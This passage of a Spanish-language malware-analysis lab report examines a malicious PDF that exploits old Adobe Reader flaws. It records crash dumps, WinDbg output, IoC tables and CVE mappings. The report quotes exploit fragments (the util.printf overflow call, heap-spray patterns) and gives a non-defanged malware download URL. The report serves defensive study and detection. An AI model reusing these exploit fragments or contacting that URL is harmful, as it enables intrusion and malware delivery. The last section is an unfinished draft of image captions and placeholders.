ip.addr == <IP_VM_WINDOWS> && (http || tcp.port == 80)
```
donde:
- Hay que sustituir `<IP_VM_WINDOWS>` por la ip real de la máquina virtual.


## **13.2 Ejecutamos la muesta**
Al abrir la muestra, automáticamente se produce un crash en Acrobat Reader y se cierra el documento.


### **A) Investigamos el crash que se produce al abrir el documento**
**Ejecutamos ProcDump para esperar a que aparezca Adobe Reader y generar un volcado de memoria cuando el proceso termine:**
```
procdump.exe -accepteula -ma -t -w AcroRd32.exe C:\dumps > procdump_output.txt
```

El comando deja `ProcDump` esperando a que se ejecute `AcroRd32.exe`. Cuando Adobe Reader termine o se rompa, genera un dump completo en `C:\dumps` y guarda toda la salida del comando en `procdump_output.txt`.

**Obtenemos:**
```
Waiting for process named AcroRd32.exe...

Process:               AcroRd32.exe (4424)
Process image:         C:\Program Files (x86)\Adobe\Reader 9.0\Reader\AcroRd32.exe
...
...
Press Ctrl-C to end monitoring without terminating the process.

[18:01:50] Exception: C0000005.ACCESS_VIOLATION
[18:01:50] Unhandled: C00001A5
[18:01:50] Dump 1 initiated: dumps\AcroRd32.exe_260517_180150.dmp
[18:01:50] Dump 1 writing: Estimated dump file size is 362 MB.
[18:01:54] Dump 1 complete: 362 MB written in 4.0 seconds
[18:01:54] Dump count reached.
```
donde:
- Obtenemos que Adobe Reader no se cierra limpiamente, sino que crashea.

Durante el análisis dinámico, la apertura del PDF con `Adobe Reader 9.0` provoca un crash del proceso `AcroRd32.exe`. ProcDump captura una excepción `C0000005.ACCESS_VIOLATION`, indicando un acceso inválido a memoria. No se observaron peticiones` HTTP` hacia `juvitec.net` ni creación del fichero `%TEMP%\e.exe`, por lo que en este entorno la explotación no llega a completar la fase de descarga. **El comportamiento es compatible con un fallo de explotación previo a la ejecución completa del downloader.**

--------

### **B. Probamos con una version anterior de Acrobat Reader**
**Descargamos la version 8 de Acrobat Reader:**
```
http://ardownload.adobe.com/pub/adobe/reader/win/8.x/8.1.2/enu/AdbeRdr812_en_US.exe
```

**Ejecutamos ProcDump para esperar a que aparezca Adobe Reader y generar un volcado de memoria cuando el proceso termine:**
```
procdump.exe -accepteula -ma -t -w AcroRd32.exe C:\dumps > C:\dumps\procdump_reader8.txt 2>&1
```

El comando deja ProcDump esperando a que se ejecute `AcroRd32.exe`. Cuando Adobe Reader termine o se rompa, genera un dump completo en `C:\dumps` y guarda toda la salida del comando en `procdump_reader8.txt`.

**Obtenemos:**
```
Waiting for process named AcroRd32.exe...

Process:               AcroRd32.exe (5132)
Process image:         C:\Program Files (x86)\Adobe\Reader 8.0\Reader\AcroRd32.exe
...
...
Press Ctrl-C to end monitoring without terminating the process.

[18:12:13] Unhandled: C00001A5
[18:12:13] Dump 1 initiated: dumps\AcroRd32.exe_260517_181213.dmp
[18:12:13] Dump 1 writing: Estimated dump file size is 884 MB.
[18:12:23] Dump 1 complete: 885 MB written in 10.0 seconds
[18:12:23] Dump count reached.
```

**Después abrimos el dump: `dumps\AcroRd32.exe_260517_181213.dmp` en WinDbg y ejecutamos:**
```
.symfix
.reload
!analyze -v
.ecxr
r
k
lm
u eip-20
dd esp L40
```


**Reader 8 está llegando a la rama `util_printf()`, pero el exploit sigue sin completar la ejecución del shellcode.**

**En la pila (dd esp L40) se ven muchos valores como:**
```
39393231
39393939
30303039
30303030
```

**Eso, interpretado como `ASCII/little-endian`, corresponde a muchos caracteres numéricos, principalmente:**
```
129999999999999...
888888888888888...
000000000000000...
```

**Esto coincide directamente con el JavaScript desofuscado:**
```
var num=12999999999999999999888888888888888888...
util.printf("%45000f",num);
```

**Hacemos un log con Windbg y guardamos la salida: [windbg_reader8.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/2-M9T2/windbg_reader8.txt)**  
   
donde podemos destacar:
- En la ejecución dinámica con Adobe Reader 8.0, la muestra provoca una excepción no controlada y termina el proceso AcroRd32.exe.
- El dump analizado con WinDbg muestra el fallo en `msvcr80!memset+0x5f`, con la pila contaminada por valores `0x30303030`, correspondientes al carácter `ASCII 0`, y fragmentos asociados al formato `%45000f`. Estos valores coinciden con la rutina `util_printf()` observada en el JavaScript desofuscado, por lo que **se confirma que la muestra alcanza la rama de explotación basada en `util.printf`. Sin embargo, no se observa tráfico HTTP hacia `juvitec.net`, ni creación de `%TEMP%\e.exe`, por lo que en este entorno la explotación no completa la ejecución del downloader.**

La explicación más probable es que estamos usando un entorno moderno de` Windows 10/64-bit`, y el exploit antiguo no consigue estabilizar la ejecución del shellcode. Para completar la fase de descarga **lo vamos a probar en un `Windows7/32-bits` con Reader 8.x vulnerable.**


### **C) Lo intentamos con Windows 7/32bits**
Montamos todo el laboratorio con la configuración de `hosts`, los programas y demás para correr la muestra en este entorno. **Pero es peor:**



**<mark>Pasamos con Windows 7 y volvemos a Windows 10, ya que aunque no hace la parte de conexion, por lo menos conseguimos mejor respuesta:</mark>**  
  
donde:
-  Procmon registra la carga de `urlmon.dll`.


## **13.3 Resultado dinámico que conseguimos en Windows 10:**
| Fase esperada                 | Resultado observado                        | Interpretación                                                                           |
| ----------------------------- | ------------------------------------------ | ---------------------------------------------------------------------------------------- |
| Apertura del PDF              | `AcroRd32.exe` abre la muestra y se cierra | El PDF provoca fallo del lector                                                          |
| Ejecución de JavaScript       | Confirmada indirectamente                  | El dump muestra datos relacionados con `util.printf()`                                   |
| Rama `util_printf()`          | Alcanzada                                  | En la pila aparecen valores asociados a `%45000f` y al número largo usado por el exploit |
| Corrupción/crash              | Confirmado                                 | WinDbg muestra excepción y fallo en `msvcr80!memset`                                     |
| Carga de `urlmon.dll`         | Observada en Procmon                       | Coherente con el downloader identificado estáticamente                                   |
| Petición HTTP a `juvitec.net` | No observada                               | El shellcode no llega a completar la descarga                                            |
| Creación de `%TEMP%\e.exe`    | No observada                               | No se completa `URLDownloadToFileA`                                                      |
| Ejecución de `e.exe`          | No observada                               | No se alcanza `WinExec`                                                                  |


**<mark>El [dump de WinDbg](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/2-M9T2/windbg_reader8.txt) confirma una excepción no controlada y contexto en `msvcr80!memset+0x5f`, con registros como `eax=20202020` y `eip=731a4a7f`. También se observa la pila contaminada con valores `0x30303030`, junto con fragmentos relacionados con el formato `%45000f`, coherente con la rutina `util_printf()` del JavaScript.</mark>**


## **13.4 Conclusiones:**
Durante el análisis dinámico en `Windows 10` con Adobe Reader vulnerable, la muestra provoca el cierre anómalo de `AcroRd32.exe`. Procmon registra la carga de `urlmon.dll`, coherente con el comportamiento downloader identificado durante el análisis estático. Sin embargo, no se observan peticiones `HTTP` hacia `juvitec.net`, ni creación del fichero `%TEMP%\e.exe`, ni ejecución de procesos hijos asociados al payload descargado.

El análisis del dump con `WinDbg` muestra que el proceso falla en `msvcr80!memset`, con la pila contaminada por valores relacionados con el argumento numérico y el formato `%45000f` usados en la función `JavaScript util_printf()`. Esto confirma que la muestra alcanza la rama de explotación basada en `util.printf`, pero en el entorno Windows 10 no consigue completar la ejecución del shellcode downloader.

Hacemos los dos shots y la comparación con regshot: Se observan únicamente 28 cambios en el registro. Los cambios más relevantes son la creación de claves bajo `Windows Error Reporting\TermReason`, coherentes con el crash de `AcroRd32.exe` observado durante la ejecución dinámica. También se registran modificaciones en `BAM`, `UserAssist` y `JumpList` asociadas a la ejecución de `Adobe Reader 8.0`. No se identifican claves de persistencia, servicios, tareas programadas nuevas maliciosas, ni referencias a `juvitec.net`, `load.php` o `%TEMP%\e.exe`. Por tanto, Regshot confirma el fallo del lector PDF, pero no evidencia descarga ni ejecución de una segunda fase.


## **13.5 Cerramos el análisis dinámico**

| Evidencia              | Resultado                                           |
| ---------------------- | --------------------------------------------------- |
| Ejecución del PDF      | `AcroRd32.exe` se ejecuta                           |
| Crash del lector       | Confirmado con ProcDump / WinDbg                    |
| Rama explotada         | `util_printf()` alcanzada en Reader 8               |
| Regshot limpio         | Solo muestra WER, BAM/UserAssist y actividad normal |
| Tráfico de red         | No hay HTTP hacia `juvitec.net`                     |
| Payload `%TEMP%\e.exe` | No aparece                                          |
| Persistencia           | No observada                                        |

La muestra fue ejecutada en un entorno Windows 10 controlado utilizando Adobe Reader vulnerable. Antes de la ejecución se activaron herramientas de monitorización como Procmon, Wireshark, ProcDump y Regshot. El objetivo era comprobar si el PDF completaba la cadena identificada en el análisis estático: ejecución de JavaScript mediante `/OpenAction`, explotación del lector PDF, descarga desde `hxxp://juvitec[.]net/css/load.php?e=2`, creación de `%TEMP%\e.exe` y posterior ejecución del payload.


**IoCs consolidados:**
| Categoría    | Indicador                   | Valor                                                              |
| ------------ | --------------------------- | ------------------------------------------------------------------ |
| Archivo PDF  | SHA256                      | `0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753` |
| Archivo PDF  | Tipo                        | `PDF`                                                              |
| Archivo PDF  | Versión PDF                 | `1.3`                                                              |
| Archivo PDF  | Tamaño                      | `17 KB aprox.`                                                     |
| Detección AV | ClamAV / AV                 | `Pdf.Exploit.Agent-11679`                                          |
| Shellcode    | Fichero extraído            | `shellcode_0.bin`                                                  |
| Shellcode    | SHA256                      | `6bee231ead43813d486879a0052dd94d1fcc3df5ca08328022b9de4c0b754fa1` |
| Red          | URL defang                  | `hxxp://juvitec[.]net/css/load.php?e=2`                            |
| Red          | URL original                | `http://juvitec.net/css/load.php?e=2`                              |
| Red          | Dominio defang              | `juvitec[.]net`                                                    |
| Red          | Dominio original            | `juvitec.net`                                                      |
| Red          | Ruta                        | `/css/load.php?e=2`                                                |
| Payload      | Fichero esperado            | `%TEMP%\e.exe`                                                     |
| Librería     | DLL usada por el downloader | `urlmon.dll`                                                       |
| API          | Descarga                    | `URLDownloadToFileA`                                               |
| API          | Ejecución                   | `WinExec`                                                          |
| API          | Carga dinámica              | `LoadLibraryA`                                                     |
| API          | Ruta temporal               | `GetTempPathA`                                                     |
| API          | Finalización de hilo        | `ExitThread`                                                       |


**IoCs estructurales del PDF:**
| Categoría | Indicador           | Valor / significado                                      |
| --------- | ------------------- | -------------------------------------------------------- |
| PDF       | `/OpenAction`       | Ejecuta JavaScript automáticamente al abrir el documento |
| PDF       | `/JS`               | Presencia de JavaScript embebido                         |
| PDF       | `/JavaScript`       | Árbol de nombres con JavaScript                          |
| PDF       | `/AcroForm`         | Estructura de formulario presente                        |
| PDF       | `invalid xref`      | Tabla xref inválida, posible técnica de evasión/análisis |
| PDF       | Objeto relevante    | `obj 13 0`                                               |
| PDF       | Contenido relevante | Stream con JavaScript ofuscado                           |
| PDF       | Función inicial     | `BXcfTYewQ()`                                            |
| PDF       | Acción inicial      | `this.BXcfTYewQ()`                                       |

**IoCs de JavaScript / exploit:**
| Categoría  | Indicador                      | Relevancia                                     |
| ---------- | ------------------------------ | ---------------------------------------------- |
| JavaScript | `eval(eval(...))`              | Ofuscación y ejecución dinámica                |
| JavaScript | `String.fromCharCode(...)`     | Reconstrucción de código ofuscado              |
| JavaScript | `unescape("%u....")`           | Codificación de shellcode                      |
| JavaScript | `util.printf("%45000f", num)`  | Rutina de explotación asociada a `util.printf` |
| JavaScript | `Collab.collectEmailInfo(...)` | Rutina de explotación mediante Collab          |
| JavaScript | `app.doc.Collab.getIcon(...)`  | Rutina de explotación mediante `getIcon`       |
| Heap spray | `%u9090%u9090`                 | NOP sled                                       |
| Heap spray | `0x0c0c0c0c`                   | Dirección/patrón típico de explotación         |
| Heap spray | `mem_array`                    | Array usado para heap spraying                 |

**Vulnerabilidades asociadas:**
| CVE             | Componente / técnica                                             | Evidencia en la muestra                                            |
| --------------- | ---------------------------------------------------------------- | ------------------------------------------------------------------ |
| `CVE-2008-2992` | Adobe Reader/Acrobat `util.printf`                               | Presencia de `util.printf("%45000f", num)`                         |
| `CVE-2007-5659` | Métodos JavaScript con argumentos largos en Adobe Reader/Acrobat | Uso de `Collab.collectEmailInfo()` con argumento sobredimensionado |
| `CVE-2009-0927` | `Collab.getIcon` en Adobe Reader/Acrobat                         | Uso de `app.doc.Collab.getIcon(...)`                               |


**IoCs dinámicos observados:**
| Categoría    | Indicador                               | Resultado                                        |
| ------------ | --------------------------------------- | ------------------------------------------------ |
| Proceso      | `AcroRd32.exe`                          | Ejecutado al abrir el PDF                        |
| Crash        | `AcroRd32.exe`                          | Cierre anómalo confirmado                        |
| WER          | `Windows Error Reporting\TermReason`    | Registra el fallo del proceso                    |
| Dump         | `C00001A5` / crash                      | Capturado con ProcDump                           |
| WinDbg       | `msvcr80!memset+0x5f`                   | Punto de fallo observado                         |
| WinDbg       | `0x30303030` en pila                    | Coincide con datos generados por `util.printf()` |
| Red          | HTTP hacia `juvitec.net`                | No observado en Windows 10                       |
| Payload      | `%TEMP%\e.exe`                          | No creado en Windows 10                          |
| Persistencia | Run/RunOnce/servicios/tareas maliciosas | No observadas                                    |


Aunque el análisis estático identifica claramente una URL de descarga y un payload esperado como `%TEMP%\e.exe`, durante el análisis dinámico en Windows 10 no se observó tráfico `HTTP` ni creación de dicho ejecutable. Por tanto, `juvitec[.]net`, `/css/load.php?e=2` y `%TEMP%\e.exe` deben tratarse como IoCs extraídos estáticamente del shellcode, mientras que el crash de `AcroRd32.exe`, las entradas de `Windows Error Reporting` y la ejecución parcial de `util_printf()` corresponden a evidencias dinámicas observadas.


# **14. Análisis dinámico avanzado con x32dbg**
**Abrimos x32dbg y ejecutsamos xxxxxxxx:**
```
C:\Users\usuario>"C:\Program Files (x86)\Adobe\Reader 8.0\Reader\AcroRd32.exe"  "C:\Users\usuario\Desktop\0b.pdf"
```


x32dbg.png



x32dbg-exception.png



x32dbg-exception-2.png



x32dbg-urlmon.png



x32dbg-urlmon-2.png



windbg-error.pn


x32dbg.png


xxxxxxxxxxxxxxxxx



x32dbg-acroform.png



x32dbg-pluginMain.png



x32dbg-escript.png
